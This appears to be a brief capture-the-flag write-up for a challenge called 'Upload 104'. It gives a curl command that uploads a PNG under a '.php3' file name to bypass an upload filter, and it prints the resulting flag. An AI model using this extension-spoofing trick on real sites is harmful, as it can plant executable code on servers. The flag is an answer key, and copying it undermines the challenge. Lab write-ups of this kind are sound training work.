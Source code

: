 # Upload 104
Same thing but this time: 
``curl -F "file=@sample.png;filename=sample.php3" chal8.hackademy.ctf/upload4.php``

``FLAG-E287wMaSbdf9hQh7jyYxxq08mhjJmJBt``
